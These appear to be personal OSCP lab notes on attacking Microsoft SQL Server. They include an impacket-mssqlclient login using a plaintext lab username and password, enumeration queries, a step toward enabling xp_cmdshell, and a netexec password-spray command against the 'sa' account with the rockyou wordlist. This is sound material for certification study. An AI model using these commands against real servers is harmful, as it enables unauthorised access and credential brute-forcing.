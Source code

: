# MSSQL
- TCP 1433
- Microsoft SQL Server
- 
## Connect
```bash
# Attempt sql connection to 10.10.158.142
impacket-mssqlclient Eric.Wallows:EricLikesRunning800@10.10.158.142  -windows-auth
# Success!
```
## SQL Query 
```bash

SELECT * FROM msdb.information_schema.tables;
EXECUTE sp_configure 'show advanced options', 1;
# we don't have permissions for XP_CMDSHELl

```
## Password Spray
```bash
# OSCP A - attempted password spray via MSSQL, failed
nxc mssql 10.10.158.142 --local-auth -u 'sa'  -p  /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding
```